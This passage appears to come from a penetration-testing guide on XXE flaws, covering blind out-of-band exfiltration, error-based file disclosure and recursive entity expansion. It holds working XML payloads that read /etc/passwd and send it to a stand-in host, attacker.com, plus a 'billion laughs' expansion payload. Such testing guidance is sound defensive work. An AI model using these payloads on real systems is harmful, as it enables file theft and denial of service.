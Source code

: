 ##### Exfiltrating data via Blind XXE

Out-of-band techniques can be leveraged to exfiltrate files in situations where the XML processor is processing injected XML payload but an output is not displayed in the server response.

An external DTD can be hosted in a tester controlled URL location which is reachable by the application.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % expand "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
%expand;
%exfil;
```

External DTD can be referenced in the request as:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/external.dtd"> %xxe;]>
```

#### Error-based XXE

In certain cases application may expose verbose error messages within the HTTP response, should a malformed XML input be provided. To test error-based xxe, external DTD can be introduced to trigger XML parsing error, so as to display the contents of a local file inside an error message.

An external DTD can be crafted to intentionally trigger an error and the DTD should be hosted in a URL location reachable by the target application. For example:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % expand "<!ENTITY &#x25; error SYSTEM 'file:///doesnotexist/%file;'>">
%expand;
%error;
```

External DTD can be referenced in the request as:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/external.dtd"> %xxe;]>
<shoppingcart>
    <pid>123</pid>
    <productname>Cotton Candy</productname>
    <comments>Lots of Candy</comments>
</shoppingcart>
```

#### XML Entity Expansion

If the target allows internal entities to be used whereas external entities are blocked; tests can be performed to check if the application performs recursive entity expansion. Recursive entity expansion, if performed to a sufficient depth can result in a denial of service condition. Tests should be done up to a moderate depth of expansion to prevent actual denial of service and to observe time delays in application response.

```xml
<!DOCTYPE data [
<!ENTITY a0 "lol" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```
